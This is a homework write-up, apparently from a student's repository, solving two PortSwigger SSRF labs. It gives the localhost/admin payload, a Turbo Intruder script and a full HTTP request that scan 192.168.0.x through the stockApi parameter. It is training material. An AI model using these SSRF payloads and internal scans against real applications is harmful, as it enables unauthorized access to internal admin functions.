









# Homework 10. Server-side attacks. Part 3

## SSRF

### Task 1. Basic SSRF against the local server

The [lab](https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-localhost)

The target web application requests third-party stocks to get product number.  
The stock url is passed as request parameter, so it  can be changed to:

```bash
http://localhost/admin
```



The server responded with admin page:



From the page source take `Delete` button url:



And execute `stock` request again with this path:



The lab is solved 🎉



### Task 2. Basic SSRF against another back-end system

The [lab](https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-backend-system)

This time the admin panel located on another server within private network `192.168.0.X`.

First of all we have to find the server ip address.
It could by last ip octet enumeration from 1 to 255.  
I've used `Turbo Intruder` Burp extension for that with configuration:

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           requestsPerConnection=1000,
                           pipeline=False,
                           engine=Engine.THREADED
                           )
                           
    for i in range(1, 256):
         engine.queue(target.req, i)

def handleResponse(req, interesting):
    table.add(req)
```

and request:

```http
POST /product/stock HTTP/2
Host: 0a52007003236dcd8961fefc00930069.web-security-academy.net
Cookie: session=UytULELImCJe72T6XyQ7ZxPlAqvVzFkS
Content-Length: 96
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Not?A_Brand";v="99", "Chromium";v="130"
Content-Type: application/x-www-form-urlencoded
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: */*
Origin: https://0a52007003236dcd8961fefc00930069.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a52007003236dcd8961fefc00930069.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate, br
X-Forwarded-For: 234.35.45.2
Priority: u=1, i

stockApi=http://192.168.0.%s:8080/admin
```

The server is located on `192.168.0.144`



Take `Delete` button path from page source:



And execute `stock` request with with path as `stockApi`:



The lab is solved 🎉


